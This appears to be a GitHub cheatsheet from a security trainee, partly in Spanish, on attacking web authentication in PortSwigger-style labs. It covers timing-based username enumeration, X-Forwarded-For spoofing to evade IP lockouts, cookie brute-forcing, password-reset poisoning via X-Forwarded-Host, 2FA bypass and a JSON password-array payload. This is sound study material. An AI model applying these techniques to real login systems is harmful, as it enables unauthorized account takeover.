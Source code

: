 # Authenthication / Brute-Force CHEATSHEET + IMPORTANT LABS

## Key Terms

```bash
X-Forwarded-For  -> bypass ip based brute-force protection
X-Forwarded-Host -> <OUR-SV>
Burp Macros
```

## Most important labs

- [Username-enumeration-via-response-timing+ip-blocked-bypass-via-X-Fowarded-For](Username-enumeration-via-response-timing+ip-blocked-bypass-via-X-Fowarded-For.md)
  
- [Brute-forcing-a-stay-logged-in-cookie-(cookie-easy-to-reproduce-username+md5+b64)](Brute-forcing-a-stay-logged-in-cookie-(cookie-easy-to-reproduce-username+md5+b64).md)

- [Offline-password-cracking](Offline-password-cracking.md)


 ## Metodology
<br>


> Brute force users
```
 -> Cluster Bomber Attack -> Grep Extract -> e.g: invalid username/password
      -> ¿username already exists? 
      -> <USERNAME> + <VERY-LONG-PASSWORD> -> show time completed in respose
      -> Sometimes, when attempting to log in as an **existing** user, the server will lock the account after X failed attempts. Create a wordlist that repeats each username 5–10 times 
      -> json? -> try an array of password = brute force in a single request
      -> md5? -> while read -r i; do print  "$i" | md5sum | cut -d ' ' -f1; done < portswigger-password.txt > portswigger-pass-md5sum.txt
```
<br>

> Change password?
```  
  -> Brute-force the current password and in the new password field enter <pass1> <pass2>
      > If the current password is correct, it will show an error message because your new passwords do not match	
```
<br>
    
> Forgot password? 
```
    -> Reuse temporal token 			
	  -> X-Forwarded-Host: <exploit-sv> -> token en nuestro email
```
<br>

Cookie predecible?
```
    -> <username>:<password-hash> base64
    -> <username>:<password+timestamp-hash>
    -> Hash? -> find the type with tools like john-the-ripper,hashid,crackstation(online)...
```
<br>

> 2FA?
```
    -> Intentar evitar la 2º verificación, ej -> 1º login + GET /my-account?username=carlos
    -> login1 (wiener) + login2 (send token to carlos) -> brute force mfa
	  -> macro + brute force mfa
```
<br>

> LOGIN BLOCKED
```
- json? -> try an array of password = brute force en una sola request, eg -> {"username":"carlos","password":["foo1","foo2","foo3..."]} 
- IP based block? -> Pitchforked attack ->  X-Forwarded-For: <IP-INTRUDER+1> + <USERNAME> + <PASSWORD> 
```


